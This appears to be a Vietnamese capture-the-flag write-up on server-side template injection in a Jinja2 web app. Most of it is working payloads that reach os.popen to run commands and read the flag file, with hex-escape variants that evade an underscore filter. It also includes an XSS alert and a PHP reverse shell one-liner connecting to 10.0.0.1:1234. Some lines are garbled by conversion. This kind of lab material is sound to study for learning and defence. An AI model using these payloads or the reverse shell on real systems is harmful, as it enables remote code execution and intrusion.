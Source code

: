 ```
{{'<script>alert(origin);</script>'|safe}}
```

![image](https://hackmd.io/_uploads/H1b40_xhJl.png)
Hừm làm được gì nhỉ .... -> php rever shell ???

```
{{'<script>alert(origin);</script>'|safe}}
<div data-gb-custom-block data-tag="if" data-0='application' data-1='][' data-2='][' data-3='__globals__' data-4='][' data-Ldata-6='__import__' data-7='](' data-8='os' data-9='popen' data-10='](' data-11='id' data-12='read' data-13=']() == ' data-14='chiv'> attr((request['args']usc*2,request.args.class,request.args.usc*2)|join) </div>
{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("cat flag").read() }}
attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)
<class 'object'>
{{'<script>php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");';</script>'|safe}}
<div data-gb-custom-block data-tag="if" data-0='application' data-1='][' data-2='][' data-3='__globals__' data-4='][' data-Ldata-6='__import__' data-7='](' data-8='os' data-9='popen' data-10='](' data-11='id' data-12='read' data-13=']() == ' data-14='chiv'> config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("ls").read() </div>
{{ config['\x5f\x5fclass\x5f\x5f'].from_envvar.__globals__.__builtins__.__import__("os").popen("cat flag").read() }}
attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)
<class 'object'>
{{g['\x5f\x5fclass\x5f\x5f']}}  ->  {{g.__class__}}
.__class__
['\x5f\x5fclass\x5f
{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("ls").read() }}
{{ config['\x5f\x5fclass\x5f\x5f']['from_envvar']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']("os").popen("ls").read() }}
<div data-gb-custom-block data-tag="if" data-0='application' data-1='][' data-2='][' data-3='__globals__' data-4='][' data-5='__builtins__' data-6='__import__' data-7='](' data-8='os' data-9='popen' data-10='](' data-11='id' data-12='read' data-13=']() == ' data-14='chiv'> a </div>
<div data-gb-custom-block data-tag="if" data-0='application' data-1='][' data-2='][' data-3='x5f\x5f']['globalsx5f\x5f'][' data-5='builtinsx5f\x5f'][' data-6='importx5f\x5f'][' data-7='](' data-8='os' data-9='popen' data-10='](' data-11='ls' data-12='read' data-13=']() == ' data-14='chiv'> \x5f </div>
<div data-gb-custom-block data-tag="if" data-0='application' data-1='][' data-2='][' data-3='__globals__' data-4='][' data-5='__builtins__' data-6='__import__' data-7='](' data-8='os' data-9='popen' data-10='](' data-11='ls' data-12='read' data-13=']() == ' data-14='chiv'> a </div>

 \x5f
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Giờ nó gặp kí tự `_` đều loại bỏ

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
